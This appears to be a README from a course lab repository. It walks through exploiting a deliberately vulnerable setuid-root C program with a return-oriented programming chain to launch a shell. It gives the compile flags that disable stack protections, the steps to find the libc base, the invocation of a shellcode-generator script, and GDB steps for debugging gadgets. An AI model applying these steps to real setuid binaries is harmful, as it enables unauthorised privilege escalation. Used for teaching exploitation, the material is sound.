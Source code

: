 # How to Launch a Shell in a Vulnerable Program
## Setup
- For our example vulnerable program, we'll use `vuln.c` from assignment 1:
```
gcc -o vuln -z execstack -fno-stack-protector vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```
- In this attack, we'll assume that libc is not statically linked to the executable
- Link zsh to sh:
```
sudo ln -sf /bin/zsh /bin/sh
```

## Find Base Address of libc
- Run `ldd examples/vuln` to find this base address:
```
	linux-gate.so.1 =>  (0xb7fd9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e09000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```
- In this example, libc's base address is `0xb7e09000`

## How to Create an ROP Shellcode
- We'll create an ROP chain to launch a shell
	- `vuln` will execute the generated `shellcode` during a buffer overflow
```
python3 gen_shellcode.py --libc_offset <libc_offset>
```
- For example:
```
python3 gen_shellcode.py --libc_offset 0xb7e09000
```
- If the `--gadgets` argument is included, we will create a shellcode with gadgets stored in that file
- **Note**: We don't recommend using `--gadgets`, because the generated shellcode won't work 100% of the time. Some gadgets found by ROPHunter may be invalid, because the actual execution could interpret the bytes differently than the Capstone disassembler.

## How to Launch a Shell
- We used GDB to determine where in the stack to store parts of the shellcode; e.g. `/bin/sh`
- However, GDB's stack frame may not match normal execution
- We use `invoke.sh` to run `vuln` within the same environment (courtesy of https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it):
	- Run `vuln` in normal execution:
```
./invoke.sh vuln
```
	- Run `vuln` with GDB:
```
./invoke.sh -d vuln
```

### How to Debug this ROP Chain
#### Using GDB
- Using GDB, we run `./invoke.sh -d vuln`:
```
b main	# libc only gets loaded after main(), so we have to stop at main() before setting the other breakpoints
run
b *<Gadget address>	# e.g. First gadget's address is 0x2c79c
continue
```

#### Wrong %esp
- For some parts of the shellcode, we need to store addresses to other places on the stack
- We calculate these addresses by using the address stored in `%esp` at the first gadget
	- With return-oriented programming, `%esp` acts as the instruction pointer
- We can find this address by using GDB and can pass this address to `gen_shellcode.py` with the argument `init_esp_addr`

#### Invalid Gadgets
- If GDB stops at the expected instruction, then we have found the correct gadget
- Unfortunately, finding the right gadgets for an ROP shell is still trial-and-error. Some gadgets may be invalid, because GDB may not interpret the gadgets in the same way as the Capstone disassembler.